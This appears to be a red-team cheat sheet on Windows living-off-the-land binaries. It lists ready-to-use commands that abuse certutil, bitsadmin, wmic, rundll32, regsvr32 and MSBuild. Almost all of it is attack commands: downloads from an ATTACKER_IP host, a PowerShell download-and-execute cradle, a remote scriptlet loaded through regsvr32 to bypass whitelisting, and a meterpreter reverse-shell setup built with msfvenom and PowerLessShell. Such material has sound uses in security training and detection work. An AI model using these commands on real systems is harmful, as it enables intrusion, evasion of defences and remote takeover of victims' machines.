 # LLiving Off The Land Binaries
[LOLBAS](https://lolbas-project.github.io/#) - Living Off The Land Binaries, Scripts and Libraries

## File Operations
### Certutil
```
Certutil - file download, file encoding/decoding

certutil -URLcache -split -f http://ATTACKER_IP/payload.exe C:\Windows\Temp\payload.exe
certutil -encode payload.exe Encoded-payload.txt
```

### BITSAdmin
```
BITSAdmin - file download, file execution

bitsadmin.exe /transfer /Download /priority Foreground http://ATTACKER_IP/payload.exe C:\Windows\Temp\payload.exe
```

### FindStr
```
FindStr - file download from SMB Share

findstr /V NotPresentString \\MachineName\ShareFolder\payload.exee > c:\Windows\Temp\payload.exe
```

## File Execution
### Explorer
```
Explorer - file execution

explorer.exe /root,"c:\Windows\Temp\payload.exe"
```

### Wmic
```
Wmic - file execution

wmic.exe process call create "cmd /c c:\Windows\Temp\payload.exe"
```

### Rundll32
```
Rundll32 - file execution

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"c:\Windows\Temp\payload.exe\");window.close()");
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ATTTACKER_IP/payload.ps1');");
```

## Bypassing Application Whitelisting
### Regsvr32
```
Regsvr32 - bypass application whitelisting

C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version

c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\payload.dll
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\payload.dll
```

### Bourne Again Shell (Bash)

```
Bash - bypass application whitelisting

bash.exe -c "c:\Windows\Temp\payload.exe"
```

## Misc
### Shortcuts
To use the shortcut modification technique, attacker can set the target section to execute different files using: Rundll32, Powershell, Regsvr32.

### PowerLessShell

[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell) is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild).

Example:
```
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f psh-reflection > payload.ps1
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost ATTACKER_IP;set lport ATTACKER_PORT;exploit"
python2 PowerLessShell.py -type powershell -source /tmp/payload.ps1 -output payload.csproj

Trasfer file to target machine...

c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\USER\Desktop\payload.csproj
```



